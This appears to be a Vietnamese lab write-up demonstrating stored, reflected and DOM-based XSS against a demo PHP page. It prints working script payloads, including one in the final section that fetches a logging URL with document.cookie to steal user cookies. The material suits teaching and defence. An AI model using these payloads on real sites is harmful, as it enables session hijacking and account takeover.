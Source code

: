 # Stored XSS
Tại **index.php** nhập nội dung vào và **submit** sẽ hiển thị nội dung ra bên ngoài màn hình.

<img src="./images/Screenshot.png" alt="Stored XSS" />

Với tính tò mò thì bắt đầu chèn thêm lệnh `<script>alert('Jos Fairy')</script>` vào khung nhập, sau khi **submit** sẽ thấy hiện tượng kỳ lạ xảy ra.

<img src="./images/Screenshot_1.png" alt="Stored XSS" />

*Ài ố xì mà* vì tính tò mò không ngừng nên **view-source** lên xem cho rõ hơn.

<img src="./images/Screenshot_2.png" alt="Stored XSS" />

Ở trên, ta nhận ra rằng đoạn **script** không thực hiện ở khung nhập mà thực hiện ở khung hiển thị `id="name"`

# Reflected XSS
<img src="./images/Screenshot_3.png" alt="Reflected XSS" />

Ở trên, rõ ràng nhận thấy link page `page=About` chưa được mã hóa mà còn lộ HD Full không che nữa.

Để tiếp tục thực hiện hành vi của mình, thử chèn `123` vào đường dẫn xem có gì xảy ra không.

<img src="./images/Screenshot_4.png" alt="Reflected XSS" />

Ahihi! Vậy là xuất hiện một trang y hệt màn hình `index.php` rồi nhỉ?

Tương tự như **Stored XSS** ta chèn thêm đoạn `<script>alert("Jos Fairy")</script>` để tấn công trang.

# DOM Base XSS
Với một trang web bình thường, luồng code hiển nhiên sẽ là nhập giá trị vào ô input sau đấy hiển thị ra màn hình. Tương tự trong bản demo này cũng vậy.

<img src="./images/Screenshot_5.png" alt="DOM Base XSS" />

Nhưng khi `view-source` lên ta thấy `#name=josfairy` được bao bọc bởi hàm `eval()`

> Hàm **eval(string)** nhận biểu thức toán học hoặc câu lệnh javascript

<img src="./images/Screenshot_6.png" alt="DOM Base XSS" />

<img src="./images/Screenshot_7.png" alt="DOM Base XSS" />

Vậy nên ta dễ dàng thao tác chỉ cần chèn câu lệnh `alert(1)` vào `#name=` là có thể tấn công.

<img src="./images/Screenshot_8.png" alt="DOM Base XSS" />

# Steal Cookies with XSS
Để thực hiện tấn công vào người dùng, những kẻ tấn công có thể thực hiện nhiều hành vi khác nhau để đưa ra mọi cách thức khác nhau chiếm lấy tài khoản người dùng.

Ở đây, mình dêo cách thức phổ biến mà hacker muốn chiếm lấy tài khoản của bạn bằng cách đánh cắp cookie.

Tại trang chủ `index.php`, chèn thêm đoạn mã script `<script>fetch('http://127.0.0.1:8000/log.php?c=' + document.cookie)</script>` vào ô input

<img src="./images/Screenshot_9.png" alt="Steal Cookies with XSS" />

Sau khi **submit** lúc này đoạn script đã thực hiện và sinh ra một file `log.txt` chứa cookie của người dùng tương ứng.

<img src="./images/Screenshot_10.png" alt="Steal Cookies with XSS" />

<img src="./images/Screenshot_11.png" alt="Steal Cookies with XSS" />